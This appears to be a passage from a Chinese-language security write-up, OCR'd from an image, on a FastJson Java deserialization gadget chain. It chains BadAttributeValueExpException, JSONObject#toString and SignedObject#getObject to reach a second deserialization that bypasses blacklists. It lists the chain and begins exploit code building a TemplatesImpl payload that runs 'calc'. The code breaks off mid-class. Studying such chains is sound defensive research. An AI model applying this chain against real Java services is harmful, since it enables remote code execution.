 ```bash
        return obj;
    }
```

而要反序列化的`this.content`可以通过构造方法赋值，并且该方法是一个相对容易触发的`getter`方法，所以**问题转化为了如何触发 SignedObject#getObject。**

#### 解决方案

最好找只依赖于`FastJson`的包的`gadget`，使得攻击面最大。

而正好`JsonObject#toString`可以触发任意`getter`方法，而`toString`又可以通过`BadAttributeValueExpException#readObject`调用，因此整条链子就通了。

**gadget**

```bash
* 绕过第一次的 TemplatesImpl 黑名单检查
    BadAttributeValueExpException#readObject
    JSONOBJECT#toString
    SignedObject#getObject
* 二次反序列化
    * 引用绕过 JSON 自带 resolveClass 的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

**exp**

```bash
package gadget.fastjson;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import gadget.doubleunser.MyInputStream;
import util.GadgetUtils;
import util.ReflectionUtils;
import util.SerializerUtils;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.ArrayList;
import java.util.List;

public class FJ2 {
    public static void main(String[] args) throws Exception{

        List<Object> list = new ArrayList<>();

        TemplatesImpl templates = GadgetUtils.createTemplatesImpl("calc");

        list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测

        JSONArray jsonArray2 = new JSONArray();
        jsonArray2.add(templates);           //此时在handles这个hash表中查到了映射，后续则会以引用形式输出

        BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
```